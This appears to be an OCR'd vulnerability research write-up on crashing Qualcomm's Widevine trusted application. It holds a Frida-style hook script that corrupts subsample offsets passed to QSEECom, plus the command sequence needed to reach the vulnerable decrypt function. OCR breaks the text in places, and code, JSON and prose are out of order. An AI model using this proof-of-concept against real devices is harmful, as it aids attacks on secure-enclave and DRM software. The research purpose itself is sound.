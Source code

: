 As widevine is loaded and wv_dash_core_decrypt_cenc  is invoked, it is not hard to make a PoC. 
The easiest way to let the TA crash is to hook QSEECom_send_modified_cmd_64  just before the 
kernel ioctl, modifying the subsample_offset  with a abnormal value. After doing so the TA will 
crash, trails can be found in dmesg and the host process android.hardware.drm@1.1-
service.widevine  will restart. However, no log can be retrieved.
      {
        "name": "Secure UHD (cbcs)",
        "uri": 
"https://storage.googleapis.com/wvmedia/cbcs/h264/tears/tears_aes_cbcs_uhd.mpd",
        "drm_scheme": "widevine",
        "drm_license_url": "https://proxy.uat.widevine.com/proxy?
provider=widevine_test"
      },
  onEnter: function (log, args, state) {
    log('QSEECom_send_modified_cmd_64()');
    log('\thandle:'.concat(args[0]));
    log('\tsend_buf:'.concat(args[1]));
    log('\tsbuf_len:'.concat(args[2]));
Proactive Invocation
 
Although we can find a way to trigger the bug in 10 minute, it takes me days to trigger it freely. 
The first obstacle is the closure of the system. Widevine client, or CA, is running in 
android.hardware.drm@1.1-service.widevine  process, which will load a lot of closed source 
vendor libraries, such as libQSEEComAPI.so , liboemcrypto.so , libcpion.so , libwvhidl.so . This 
means a great deal of reversing workload in maze-like binary.
The next obstacle is that wv_dash_core_decrypt_cenc  is called very late of the workflow. One can 
not make a SMC call to it and hope it will return successfully, as there are many preparations, 
state transitions, both in CA and TA, before wv_dash_core_decrypt_cenc  is ready to be called. Here 
is a short list of command order:
    log('\tresp_buf:'.concat(args[3]));
    log('\trbuf_len:'.concat(args[4]));
    log('\tifd_data:'.concat(args[5]));
    if(args[2] == 0x1CE0){
      var send_buf = args[1];
      var cmd_id = send_buf.readU32();
      var session_id = send_buf.add(4).readU32();
      var num_of_samples = send_buf.add(8).readU32();
      var p_data_buf = send_buf.add(12).readPointer();
      var data_size = send_buf.add(20).readU32();
      var p_subsample_meta = send_buf.add(24);
      var p_content_key = send_buf.add(1176);
      var content_key_len = send_buf.add(1208).readU32();
      var p_buf_meta = send_buf.add(1212)
      var p_some_unknown_setting = send_buf.add(1228);
      var p_mem_segs = send_buf.add(1240);
      log("\tcmd_id:0x".concat(cmd_id.toString(16)));
      log("\tTrying to corrupt data to trigger bug");
      for(i = 0; i < 32; i++){
        var p_subsample_offset = p_subsample_meta.add(i * 36 + 32)
        log("\tValue of offset before alter:".concat(p_subsample_offset.readU32()));
        p_subsample_offset.writeU32(0x23332333);
        log("\tValue of offset after alter:".concat(p_subsample_offset.readU32()));
      }
    }
  },
QSEECom_start_app()
QSEECom_send_cmd() 0x61016, wv_dash_core_api_version
QSEECom_send_cmd() 0x61001, wv_dash_core_initialize
QSEECom_send_cmd() 0x61030, wv_dash_core_perf_optimization
QSEECom_send_cmd() 0x6100E, wv_dash_core_iskeybox_valid
QSEECom_send_cmd() 0x6101F, wv_dash_core_support_usage_table
QSEECom_send_cmd() 0x61003, wv_dash_core_open_session
QSEECom_send_cmd() 0x61010, wv_dash_core_get_keydata
QSEECom_send_cmd() 0x61011, wv_dash_core_get_random